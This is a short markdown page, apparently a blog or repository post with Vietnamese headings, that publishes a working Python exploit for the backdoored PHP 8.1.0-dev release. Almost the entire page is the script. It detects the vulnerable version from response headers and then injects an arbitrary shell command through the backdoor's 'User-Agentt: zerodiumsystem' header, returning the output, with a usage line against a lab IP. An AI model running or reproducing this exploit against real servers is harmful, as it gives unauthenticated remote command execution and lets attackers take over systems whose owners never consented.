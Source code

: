 ```yaml
---
title: PHP 8.1.0-dev Backdoor Remote Command Injection Exploit 
date: 25/5/2021
layout: single

--- 
```

---
##  Tiêu đề: PHP 8.1.0-dev (backdoor) | Chèn lệnh từ xa (Chưa được xác thực)
##  Tác giả khai thách: Richard Jones
[![Language](https://img.shields.io/badge/Lang-Python-blue.svg)](https://www.python.org)


--- 

## Mã Kiểm Tra 


```python
#Usage: python3 php_8.1.0-dev.py -u http://10.10.10.242/ -c ls
 
#!/usr/bin/env python3
import requests
import argparse
 
from requests.models import parse_header_links 
 
s = requests.Session()
 
def checkTarget(args):
    r = s.get(args.url)    
    for h in r.headers.items():
        if "PHP/8.1.0-dev" in h[1]:
            return True
    return False
 
 
def execCmd(args):
    r = s.get(args.url, headers={"User-Agentt":"zerodiumsystem(\""+args.cmd+"\");"})
    res = r.text.split("<!DOCTYPE html>")[0]
    if not res:
        print("[-] No Results")
    else:
        print("[+] Results:")
    print(res.strip())
 
 
def main():
 
    parser = argparse.ArgumentParser()
    parser.add_argument("-u", "--url", help="Target URL (Eg: http://10.10.10.10/)", required=True)
    parser.add_argument("-c", "--cmd", help="Command to execute (Eg: ls,id,whoami)", default="id")
    args = parser.parse_args()
 
    if checkTarget(args):
        execCmd(args)
    else:
        print("[!] Not Vulnerable or url error")
        exit(0)
     
if __name__ == "__main__":
    main()
```



